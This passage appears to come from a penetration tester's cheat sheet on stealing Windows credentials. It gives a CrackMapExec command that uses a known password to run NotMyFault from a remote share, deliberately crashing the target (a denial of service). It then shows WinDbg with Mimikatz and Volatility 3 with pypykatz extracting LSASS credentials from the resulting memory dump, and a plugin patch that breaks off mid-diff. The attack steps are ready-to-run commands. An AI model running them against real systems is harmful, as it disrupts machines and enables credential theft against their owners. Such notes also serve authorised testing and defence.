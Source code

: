 Crash the target machine, e. g. with [NotMyFault](https://learn.microsoft.com/en-us/sysinternals/downloads/notmyfault):

{% hint style="warning" %}
**This action causes DOS!** Do at your own risk.
{% endhint %}

```
$ cme smb 192.168.1.1 -u snovvcrash -p 'Passw0rd!' -x '\\10.10.13.37\notmyfaultc64.exe -accepteula /crash 0x03' --no-output
```

Parse LSASS with Mimikatz and [WinDbg](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools#small-classic-windbg-preview-logo-debugging-tools-for-windows-windbg):

```
kd> .load C:\mimilib.dll
kd> .SymFix
kd> .Reload
kd> !process 0 0 lsass.exe
kd> .process /r /p fffffa80072b2b10
kd> !mimikatz
```

{% hint style="info" %}
To add  debug symbols: `File` → `Symbol file path` → `SRV*https://msdl.microsoft.com/download/symbols`.
{% endhint %}

Or with [Pypykatz plugin](https://github.com/skelsec/pypykatz-volatility3) for Volatility 3:

```
$ pip install volatility3 pypykatz
$ git clone https://github.com/volatilityfoundation/volatility3 ~/tools/volatility3
$ git clone https://github.com/skelsec/pypykatz-volatility3 ~/tools/pypykatz-volatility3
$ cd ~/tools/volatility3
$ python3 vol.py -f /path/to/MEMORY.dmp -p ../pypykatz-volatility3 pypykatz
```

{% hint style="info" %}
[Current](https://github.com/skelsec/pypykatz-volatility3/blob/38c96c5d8053c38f1ac594f4c50bd54561f88534/vol_pypykatz.py) version of `vol_pypykatz.py` need some changes to work with relevant version of Volatility 3:

{% code title="vol_pypykatz.py.patch" %}
```diff
diff --git a/vol_pypykatz.py b/vol_pypykatz.py
index 6c9592f..f53da1d 100644
--- a/vol_pypykatz.py
+++ b/vol_pypykatz.py
@@ -19,7 +19,7 @@ vollog = logging.getLogger(__name__)

 class pypykatz(interfaces.plugins.PluginInterface):

-    _required_framework_version = (1, 0, 0)
+    _required_framework_version = (2, 0, 0)

     @classmethod
     def get_requirements(cls) -> List[interfaces.configuration.RequirementInterface]:
@@ -38,18 +38,4 @@ class pypykatz(interfaces.plugins.PluginInterface):
         ]

     def run(self):
-        return renderers.TreeGrid(
-            [
-                ("Credential Type", str),
-                ("Domain Name", str),
-                ("Username", str),
```